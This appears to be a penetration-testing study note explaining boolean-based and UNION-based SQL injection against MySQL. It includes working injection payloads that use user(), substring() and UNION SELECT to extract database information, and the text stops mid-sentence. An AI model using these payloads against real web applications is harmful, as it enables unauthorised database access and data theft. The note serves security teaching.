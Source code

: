 ### => Boolean Based SQLi

Once penetration testers find a way to tell when a condition is true or false, they can ask the database some simple True/False questions:
- Is the first letter of the username 'a'?
- Does this database contain three tables?
- ...

We can use two MySQL functions: `user()` and `substring()`:

```sql
-- `user()` returns the name of the user currently using the database:
select user();

-- `substring()` returns a substring of the given argument. It takes 3 parameters:
--  - the input string
--  - the position of the substring
--  - its length

select substring('elarnsecurity', 2, 1)

-- We can use both together:
substring(user(), 1, 1);        -- it might return 'r' for 'root' user

substring(user(), 1, 1) = 'r'   -- if it returns 1 -> True; 0 -> False

-- Combining those features, we can iterate over the letters of the username by using payloads as:
-- ' or substr(user(), 1, 1) =='a
-- ' or substr(user(), 1, 1) =='b
-- when we find the first letter then we can move to the second and so on in order to guess the entire username.
```

### => UNION Based SQL Injections

Many times some of the results of a query are directly displayed on the output page. This behavior can be exploited using the UNION SQL command.

```sql
-- The following payload forces the web application to display the result of the `user()` function on the output page.

SELECT description FROM items where id='' UNION SELECT user(); -- -';

-- The comment at the end of the line prevents the following part of the original query from being parsed by the database, comments the rest from the original query.
-- The comment also contains a third dash because most of the browsers automatically remove trailing spaces in the URL so.
-- If you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment*.
-- Also used if we don't want our web application to add anything in the url after our injection.
```

To exploit a SQL injection you first need to know how many fields the vulnerable query selects, you do this by trial and error. We know there's an injection by `' UNION SELECT null; -- -`, this should display:
